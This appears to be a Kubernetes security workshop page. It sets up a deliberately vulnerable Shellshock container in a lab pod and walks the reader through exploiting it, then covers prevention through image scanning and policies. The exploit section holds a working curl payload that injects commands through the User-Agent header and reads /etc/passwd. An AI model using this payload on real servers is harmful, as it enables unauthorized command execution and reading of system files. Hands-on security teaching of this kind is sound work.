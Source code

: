 # A compromised pod

In this section we deliberately introduce a container image with a known vulnerability so that you can enjoy the experience of exploiting it!

## Run a server vulnerable to Shellshock

We're using a container with [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), a vulnerability in `bash` that allows an attacker to remotely execute commands. To make it really easy, we're providing a Helm chart that installs the vulnerable deployment. 


!!! danger  "ONLY FOR TEST" 

    DO NOT RUN THIS IN A REAL CLUSTER!

```
helm install shellshockable https://lizrice.github.io/shellshockable/shellshockable-0.1.0.tgz
```

This will run a deployment with a single pod. It might take a few seconds to pull the image so check that it's up and running (your pod name will be different):

```
$ kubectl get pods
NAME                             READY   STATUS    RESTARTS   AGE
shellshockable-d5b7d44b4-9rpzd   1/1     Running   0          70s
```

In a separate terminal window, run port forwarding so we can make curl requests to this pod. This maps localhost port 8081 to the pod's port 80.

```
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

You can now use curl (or a browser) to view the web service running on this pod. For example, if you open [localhost:8081](localhost:8081) in your web browser, you'll see the Apache2 default welcome page. There is also a [script](https://github.com/lizrice/shellshockable/blob/gh-pages/cgi-bin/shockme.cgi) that will return the words "Regular, expected output" at the address [localhost:8081/cgi-bin/shockme.cgi](localhost:8081/cgi-bin/shockme.cgi).

If you look at the source for the [script](https://github.com/lizrice/shellshockable/blob/gh-pages/cgi-bin/shockme.cgi) you'll see that it's executed using `bash`. This container is using a compromised version of `bash` with the Shellshock vulnerability, that an attacker can exploit to execute commands.

First let's see the regular text is returned if we use `curl` to make the HTTPS request:

```
$ curl localhost:8081/cgi-bin/shockme.cgi
Regular, expected output
```

You've seen the web server return content as expected. Now it's time to act like an attacker and exploit the Shellshock vulnerability.

## Exploit the vulnerability

You can exploit Shellshock by passing a User-Agent header on the `curl` request with the `-A` parameter. This gets expanded as an environment variable by `bash`, and because of the Shellshock vulnerability, it can be used to execute arbitrary commands. For example

```
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

Instead of running the CGI script as normal, this reponds to the HTTP request with the contents of `/etc/passwd`!

## Preventing this attack

The safest way to prevent this attack is to ensure the vulnerable version of `bash` isn't included in the container image before it's deployed. This is done with [**container image scanning**](scanning.md).

Image scanning can only detect known, published vulnerabilities. You can also limit the likely damage of as-yet-unknown compromises by configuring containers to run more securely and using [**policies**](policies.md) to enforce safer configuration.

## Optional questions and exercises

If you have the time and interest, here are some additional things you might like to think about.

1. Try running some other commands as if you were an attacker! For example, you could
    - find out what environment variables are set
    - see what user ID you're running as
    - explore the contents of the filesystem to see what is available
1. Where does this `/etc/passwd` file come from - the host or the container?
1. What would happen if you mounted files from the host into this container?
1. Take a look at the [Dockerfile](https://github.com/lizrice/shellshockable/blob/master/Dockerfile) that builds the container image used in this example. It deliberately installed an old, vulnerable version of `bash`.
1. Try running a deployment with an up-to-date version of `apache2` without the vulnerability, and check that you can't exploit it in the same way.

